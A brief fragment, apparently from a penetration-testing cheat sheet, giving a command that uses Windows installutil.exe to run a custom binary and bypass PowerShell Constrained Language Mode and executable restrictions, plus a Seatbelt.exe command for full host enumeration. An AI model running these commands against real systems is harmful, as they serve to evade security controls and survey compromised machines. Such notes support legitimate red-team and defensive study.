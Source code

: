 Contrained Langauge Bypass. Use installutil to bypass .exe restrictions. `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /logtoconsole=false /U C:\users\Public\bypass-clm.exe`
Seatbelt.exe `Seatbelt.exe -group=all -full`
